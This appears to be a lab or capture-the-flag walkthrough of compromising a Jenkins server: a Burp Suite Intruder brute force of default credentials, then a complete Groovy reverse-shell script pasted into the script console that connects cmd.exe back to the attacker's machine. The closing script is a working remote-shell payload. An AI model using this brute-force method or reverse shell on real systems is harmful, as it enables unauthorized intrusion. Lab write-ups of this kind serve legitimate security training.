

We have Google related the Jenkins exploits and were able to find some exploits
https://hacktricks.boitatech.com.br/pentesting/pentesting-web/jenkins
https://github.com/gquere/pwn_jenkins
We could do directory busting to see if there is any configure file.
Or
Could try Telneting
Command : apt install telnet
Command : telnet 192.168.205.133 7680
but no luck even though we have have typed 192.168.205.133:7680 but were not able to see anything
Will use burpsuite to get the id and passoword though there are many other attacks related to Jenkins but will use
FoxyProxy along with bursuite and will intercept the traffic and will bruteforce some id and password and see if it works or not
Will send the traffic to Repeater and now brute force the id and password manually typing different password in the password section which will be slow
So we have Intruder to save our time
Positions tabs and will click on the clear button
And will add admin and password using the add button
Here will use Pitchfork or Cluster Bomb (i.e. PitchFork is benefical for credential stuffing)
Wiill use Cluster Bombing Cuz we have no Idea what the Id and Password and will also write some payload like
Id:
admin
administrator
jenkins
Password:
password
Password
jenkins
Jenkins
Password1
And when we run the attack will closely monitor the screen (i.e. the codes) and get to know that we got the Set Cookie
So the id and password was jenkins and jenkins

Will search for Jenkins Script reverse shell
https://www.hackingarticles.in/exploiting-jenkins-groovy-script-console-in-multiple-ways/
Now go to Google and search Groovy reverse Shell
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
Will open the script console in the Jenkins website and paste the script from the groovy website as well as open a listner port in our kali
http://192.168.205.133:8080/script
Command: And have to change the attackets ip address (i.e. our kali machine)
String host="192.168.205.128";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();